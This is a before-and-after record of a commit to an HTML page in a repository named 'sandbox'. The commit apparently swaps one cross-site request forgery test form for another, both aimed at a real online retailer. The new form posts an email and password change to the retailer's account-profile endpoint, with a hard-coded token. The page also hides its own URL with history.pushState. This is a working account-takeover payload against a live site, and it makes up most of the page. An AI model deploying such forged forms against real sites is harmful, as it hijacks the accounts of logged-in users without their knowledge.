

Before and after one commit to naftolib/sandbox, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -21,15 +21,19 @@
 	<button onclick="doJob()">Try it out!</button>
 
    <script>history.pushState('', '', '/')</script>
-	<iframe name="votar" style="display:none;"></iframe>
-     <form action="https://www.bhphotovideo.com/bnh/controller/home">
-      <input type="hidden" name="Q" value="json" />
-      <input type="hidden" name="O" value="" />
-      <input type="hidden" name="A" value="estimateShippingMethods" />
-      <input type="hidden" name="show" value="all" />
-      <input type="hidden" name="mergePackages" value="false" />
-      <input type="hidden" name="cartCountry" value="AF" />
-      <input type="submit" value="Submit request" />
-    </form>
+	<form method="post" class="ad_edit_form_inline socialEdit" action="https://www.bhphotovideo.com/bnh/controller/home?O=UpdateMyAccount&amp;A=UpdateUserProfile&amp;Q=socialLogin&amp;socialLogIn=googleReg" style="display: block;">
+<input type="hidden" name="section" value="5">
+<input type="hidden" name="token" value="4a7e3793108471815cea636c40f400f7">
+<div>
+<p class="fs12">By Changing your email address, you will be <span class="bold">unlinking</span> your B&amp;H account from <span class="bold">Google.</span></p>
+</div>
+<p><label>New Email:</label><input type="text" name="emailAddress" data-pi="email" class="">
+</p>
+<p><label>Password:</label><input data-selenium="socialFormPasswrod" name="password" type="password" data-pi="password" id="socialFormPassword" class="" aria-autocomplete="list">
+</p>
+<p><label>Confirm Password:</label><input data-selenium="retypedPasswordAccDetail" type="password" data-pi="password" name="retypedPassword" class="">
+</p>
+<p><label></label><input data-selenium="submitRequest" type="submit" class="button-style1" value="Submit Request"></p>
+</form>
 </body>
 </html>
```
